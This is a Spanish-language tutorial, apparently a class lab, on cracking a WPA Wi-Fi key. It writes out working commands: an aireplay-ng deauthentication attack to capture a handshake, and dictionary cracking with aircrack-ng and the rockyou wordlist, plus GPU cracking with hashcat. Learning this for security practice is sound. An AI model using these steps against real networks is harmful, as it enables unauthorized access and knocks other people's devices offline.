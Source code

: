 # hack-wifi WPA

Si usamos el cifrado WPA es totalmente seguro de los ataques? Vamos a intentar romper la clave de una red wifi con cifrado WPA. No pongas contraseña muy larga para este práctica, te vas a tardar bastante en descifrarlo.

![refresca la página para cargar el imágen](imagen/wpa0.png)

Para empezar abrimos el terminal y los 4º primeros pasos son iguales que el [Hackear wifi wep](https://nswhuei.github.io/hack-wifi/ActividadRQ3.1).


![refresca la página para cargar el imágen](imagen/wpa1.png)

Empezamos a capturar los paquetes de la red wifi, para descifrar la clave del wpa necesitamos un paquete especial: "**handshake**". Para ello necesitamos que algún equipo de la red se conecte de nuevo, podemos esperar o usar el comando **airepaly** para desconectar un equpo de la red.
>aireplay-ng -0 2 -a 24:7F:20:02:63:B6 -c F8:87:F1:BD:76:24 wlan1mon

```-0``` El código de empezar el ataque de "Deautenticación". [Aireplay](https://www.aircrack-ng.org/doku.php?id=es:aireplay-ng)

```-a``` El bssid del router

```-c``` El bssid del equipo que vas a desconectar

![refresca la página para cargar el imágen](imagen/wpa12.png)

Una vez conseguido el paquete handshake ya podemos empezar a descifrar la clave. Para ello necesitamos un diccionario y en kali lleva por defecto uno la descomprimimos.
>gzip -d /usr/share/wordlists/rockyou.txt.gz

Y empezamos a descifrar la clave.
>aircrack-ng -a2 -b 24:7F:20:02:63:B6 -w /usr/share/wordlists/rockyou.txt ./*.cap

```-a2```El cifrado de WPA.

```-b``` El bssid del router

```-w``` La ruta del diccionario.

Y esperamos a que se descifre la clave. 

![refresca la página para cargar el imágen](imagen/wpa4.png)

Ya he conseguido la clave del red wifi cifrado por wpa.

Además de descifrar con el **CPU** podemos usar nuestro **GPU** para descifrar claves con el comando **hashcat**.Para ello necesita tener instalado el driver de tu **GPU**.

![refresca la página para cargar el imágen](imagen/hashcat1.png)

Necesitamos cambiar el formato de los archivos .cap por hccap con el comando:
>aircrack-ng ./#origen -J ./#destino

```-J``` Crear archivos hccap.

![refresca la página para cargar el imágen](imagen/hashcat12.png)
>hashcat -m 2500 ./06.hccap /#el diccionario.

```-m``` El código del método de cifrado:
![refresca la página para cargar el imágen](imagen/hashcat3.png)

